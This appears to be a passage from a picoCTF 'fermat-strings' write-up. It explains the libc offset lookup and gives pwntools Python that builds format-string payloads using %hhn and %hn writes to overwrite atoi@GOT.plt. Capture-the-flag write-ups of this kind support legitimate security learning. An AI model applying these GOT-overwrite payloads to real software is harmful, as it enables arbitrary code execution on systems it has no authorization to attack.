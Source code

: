 ![img](/picoCTF/fermat-strings/assets/leak_address.png)

- I use [libc.blukat.me](https://libc.blukat.me/) to look up the libc version, and we got the offset of `atoi` and `system`.

![img](/picoCTF/fermat-strings/assets/libc_version.png)

- Turn 2 will create new stack frame of main, so `A` and `B` new does not hold old data. With the same formula that i show in TURN 1, I create payload for `A` and `B` to overwrite `atoi@GOT.plt`.

```python
# prepare for payload A ----------------------------------------------------------------
overwrite_2 = byte_2 - 1 - 19            # calculate the number of character for %c to overwrite byte 2nd
x = 6 - len(str(overwrite_2))            # calculate padding
overwrite_2 -= x                         # fit the overwrite and padding

# send A --------------------------------------------------------------------------------
p.recvuntil("A: ")                       
A = "1" + "%"+ str(overwrite_2).encode('ascii') + "c" + "a"*x + "%12$hhn" + p64(atoi_got_plt_addr+2)
p.sendline(A)                             

# prepare for payload B ----------------------------------------------------------------
overwrite_01 = byte_01 - 3 - byte_2 - 8 - 1  # minus 3 for address of atoi+2, 
                                             # byte_2 because we printed it before, 
                                             # 8 for " and B: ", 1 for "1" in front of %c
x_1 = 7 - len(str(overwrite_01))             # calculate padding
overwrite_01 -= x_1                          # fit the overwrite and padding

# send B --------------------------------------------------------------------------------
p.recvuntil("B: ")
B = "1" + "%{}c".format(overwrite_01) + "a"*x_1 + "%44$hn" + p64(atoi_got_plt_addr)
```